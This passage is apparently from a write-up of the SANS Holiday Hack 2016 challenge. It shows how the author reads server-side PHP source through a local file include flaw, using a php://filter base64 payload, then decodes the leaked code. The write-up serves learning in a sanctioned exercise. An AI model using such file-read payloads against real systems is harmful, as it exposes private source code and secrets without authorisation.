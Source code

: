![exception1](/assets/images/sans2016/crash_dump5.png)

So the .php extension is not required.  To solve the final part of this challenge requires having a way to pull a PHP file from the server.  A recent SANS blog post titled [Getting MOAR Value out of PHP Local File Include Vulnerabilities](https://pen-testing.sans.org/blog/2016/12/07/getting-moar-value-out-of-php-local-file-include-vulnerabilities) pointed me in the right direction. Specifically, I will be using a PHP wrapper to base64 encode the target file and then I can decode it easily.

![exception1](/assets/images/sans2016/crash_dump6.png)

Final payload `{"operation":"ReadCrashDump","data":{"crashdump":"php://filter/convert.base64-encode/resource=crashdump-aDjJbG"}}`

Saving the base64 encoded text to a file, then decoding it reveals the location of the audio file.

```yaml
josh@MacBook-Pro ~/HolidayHack2016/ $ cat exception_base64.txt| base64 -D > exception_decoded.txt
josh@MacBook-Pro ~/HolidayHack2016/ $ cat exception_decoded.txt
<?php

# Audio file from Discombobulator in webroot: discombobulated-audio-6-XyzE3N9YqKNH.mp3

# Code from http://thisinterestsme.com/receiving-json-post-data-via-php/
# Make sure that it is a POST request.
if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
    die("Request method must be POST\n");
}

# Make sure that the content type of the POST request has been set to application/json
$contentType = isset($_SERVER["CONTENT_TYPE"]) ? trim($_SERVER["CONTENT_TYPE"]) : '';
if(strcasecmp($contentType, 'application/json') != 0){
    die("Content type must be: application/json\n");
}

```